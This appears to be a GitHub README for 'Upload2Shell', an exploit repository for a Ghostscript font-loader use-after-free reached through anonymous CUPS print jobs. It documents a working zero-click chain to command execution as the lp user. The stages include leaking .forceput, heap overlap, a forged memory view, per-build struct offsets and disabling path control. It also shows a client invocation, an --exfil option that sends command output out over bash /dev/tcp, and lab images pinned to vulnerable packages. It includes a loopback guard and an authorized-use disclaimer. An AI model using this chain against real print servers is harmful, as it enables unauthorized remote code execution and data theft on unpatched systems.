


# Upload2Shell: CVE-2026-125396

A local reproducer for **CVE-2026-125396**, a use-after-free in Ghostscript's
Type 1 font loader (`.putgstringcopy`). The bug hands you a write-what-where.
From there the payload turns off `-dSAFER`'s native path control and runs a
command as the CUPS filter account.

<p align="center">
  
</p>

Found and published by Paulos Yibelo / pwn.ai on 21 Nov 2026, fixed in
Ghostscript 10.08.0. I did not find this bug. What is in here is my own chain
for Debian 13 and Ubuntu 22.04/24.04, plus a small standalone IPP client, all
tested in a Docker lab.

- Write-up: https://pwn.ai/upload2shell/research.html
- Original PoC: https://pwn.ai/upload2shell/poc-native-write.pdf

<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  
  
  
  <a href="https://github.com/DeathShotXD/Upload2Shell/actions/workflows/ci.yml"></a>
  <a href="LICENSE"></a>
  
</p>

> Everything here is meant to run on machines you own. The client refuses any
> non-loopback target until you pass `--authorized`, and I would like to keep
> it that way. No live print servers, no shared queues, no boxes you do not
> own.

## The chain

```text
anonymous IPP Print-Job  (no creds, no clicking)
  -> shared CUPS queue
  -> /usr/lib/cups/filter/gstopdf       (PostScript -> PDF)
  -> /usr/lib/cups/filter/gstoraster
  -> gs -dSAFER
  -> Type 1 font loader UAF
  -> dangling ref, forged string view, pointer walk
  -> path_control_active := 0
  -> %pipe%<cmd>  as uid=7(lp)
```

<p align="center">
  
</p>

## What I tested

| Target | Ghostscript | Queue chain | Command chain | Result |
|---|---|---|---|---|
| Debian 13 (trixie) | 10.05.1~dfsg-1+deb13u1 | `gstopdf` -> `gstoraster` | `pdevice` -> `psi_device_ref` | 3/3 `uid=7(lp)` |
| Ubuntu 24.04 (noble) | 10.02.1~dfsg1-0ubuntu7.9 | `gstopdf` -> `gstoraster` | `pdevice` -> `psi_device_ref` | 3/3 `uid=7(lp)` |
| Ubuntu 22.04 (jammy) | 9.55.0~dfsg1-0ubuntu5.14 | `gstopdf` -> `gstoraster` | `pdevice` **is** `gx_device*` | 3/3 `uid=7(lp)` |

That is 9 of 9 jobs. The fixed builds (`+deb13u2`/`+deb13u3`, `7.10`, `5.15`)
die at the dangling lookup instead:

```text
Error: /undefined in --get-- ... GHOSTESCAPE_DANGLING
```

<p align="center">
  
</p>

<p align="center">
  
</p>

## Two version quirks worth knowing

- On 9.55, `ref.value.pdevice` is a `gx_device*`. On 10.x it is a
  `psi_device_ref*` whose first field points at the `gx_device`. The payload
  reads `Pdev+0` to tell them apart (a small int means `params_size` on 9.55,
  a pointer means 10.x).
- Ubuntu ships no `file:` CUPS backend. Ask for one and the scheduler refuses
  with "scheduler could not open the output file", stopping the job before the
  filter chain even runs. Drop in a tiny `discard://` backend and `gstopdf`
  still fires.

## Ghostscript layout

| Build | `ref` | `gx_device.memory` | `gs_memory_t.gs_lib_ctx` | `gs_lib_ctx_t.core` | `path_control_active` |
|---|---|---|---|---|---|
| 10.05.1 | 16 | +24 | +208 | +8 | +156 |
| 10.02.1 | 16 | +24 | +208 | +8 | +156 |
| 9.55.0 | 16 | +24 | +208 | +8 | +156 |

Pulled out of the Ubuntu/Debian dbgsym packages with gdb. Only the `pdevice`
indirection changes between builds.

## How the payload works (`poc-pipe.ps`)

1. It writes a Type 1 font to `%ram%`. A `typecheck` during `findfont` leaks the
   privileged `.forceput`.
2. It grabs `.forceput` out of the error handler, stashes a 2048-byte string in
   `systemdict`, then `restore`s and keeps the now-stale reference.
3. It refills the freed block with 512 arrays of `0x12345678` and scans for the
   live ref that now overlaps it.
4. It forges a string view (`rsize`/`value`) over any address it wants. Watch
   out here: PostScript `bitshift` is a *left* shift for a positive count, so
   byte extraction is `A I 8 mul neg bitshift 255 and`.
5. It walks `currentdevice` -> `psi_device_ref` -> `gx_device` -> `gs_memory_t`
   -> `gs_lib_ctx_t` -> `gs_lib_ctx_core_t`.
6. It zeroes `path_control_active`, and `.currentpathcontrolstate` flips from
   `true` to `false`.
7. `(%pipe%<cmd>) (w) file closefile` runs as `lp`.

## The client (`cups_poc.py`)

Raw IPP over HTTP. No `lp` binary, no shell on the target:

```bash
python3 cups_poc.py -t 127.0.0.1:6310 -q u2s --cmd 'id > /tmp/pwned'
```

```
Upload2Shell 0.2.0  (CVE-2026-125396)
  target   127.0.0.1:6310/u2s
  payload  4536 bytes
  command  id > /tmp/pwned
  status   0x0000 (successful-ok)  HTTP 200
  job-id   1
```

Only talks to loopback unless you add `--authorized`. `--exfil HOST:PORT` wraps
your command in `bash /dev/tcp` so the output comes back to you, and `--json`
gives you something a script can chew on.

## Labs

| Image | Distro | Ghostscript | Notes |
|---|---|---|---|
| `upload2shell-pwn` | Debian 13 | `+deb13u1` | CUPS plus the `u2s` queue on port 631 |
| `upload2shell-noble` | Ubuntu 24.04 | `7.9` | `discard://` backend |
| `upload2shell-jammy` | Ubuntu 22.04 | `5.14` | `discard://` backend |

The Debian lab builds straight from this repo:

```bash
./fetch-debs.sh
docker build -t upload2shell-pwn .
docker run -d --name u2s-pwn -p 127.0.0.1:6310:631 upload2shell-pwn

# just the interpreter stage, with the published PoC
docker run --rm --entrypoint gs upload2shell-pwn \
  -dSAFER -sDEVICE=nullpage -q /root/poc-native-write.pdf
# BEFORE=319 HIJACKED=18 RESTORED=319
```

The two Ubuntu images were built the same way but with the distro's own
vulnerable packages in `ubuntu/debs-*` (not committed, fetch them yourself).
For a full click-by-click run, see [REPRODUCTION.md](REPRODUCTION.md).

## Files

```text
cups_poc.py              standalone IPP client (the zero-click delivery)
poc-pipe.ps              full chain, detects 9.55 vs 10.x, __CMD__ placeholder
poc-native-write.pdf     the published bounded native-write PoC
poc-leak.ps              stages 1-4: read/write plus the pointer walk
poc-pca.ps               zeroes path_control_active and checks the state
tests/test_ipp.py        17 unit tests (IPP, escaping, scope guard, payload)
lab/u2s.ppd              PPD that forces PostScript -> PDF through gstopdf
lab/cupsd.conf           anonymous shared queue config
lab/entrypoint.sh        Debian lab bootstrap
fetch-debs.sh            pins +deb13u1 from snapshot.debian.org
Dockerfile               debian:13 with the vulnerable Ghostscript
REPRODUCTION.md          manual lab steps and screen-record notes
assets/                  banner, logo, flow, lab, stats, divider, demo GIF
scripts/make_demo.py     renders the demo GIF from the real run
.github/workflows/ci.yml static matrix plus the Docker lab job
```

## Tests and CI

```bash
python3 -m unittest discover -s tests -v
```

17 tests cover PostScript escaping, shell quoting, IPP header/group/attribute
code, response parsing, payload rendering, the loopback scope guard, and
request construction. CI runs them on Python 3.9 through 3.13, then builds the
vulnerable Debian 13 image in a Docker job and checks that the published PoC
still prints `BEFORE=319 / HIJACKED=18 / RESTORED=319`.

<p align="center">
  
</p>

## What it does not do

- Zero-click here means no credentials and no clicking. It still needs a route
  to the CUPS IPP port and a queue that takes anonymous jobs.
- The overlap stage depends on heap layout. A fresh worker is reliable (9/9 for
  me), but a worker that has been up a while with other clients may need a
  retry or two.
- Anything that buffers or re-frames the job changes the timing and can stop
  the overlap from landing.
- Fixed in `+deb13u2`, `7.10`, `5.15`. Upgrading removes the primitive. The
  interpreter is the actual fix; auth on the queue only changes who gets to
  deliver the document.
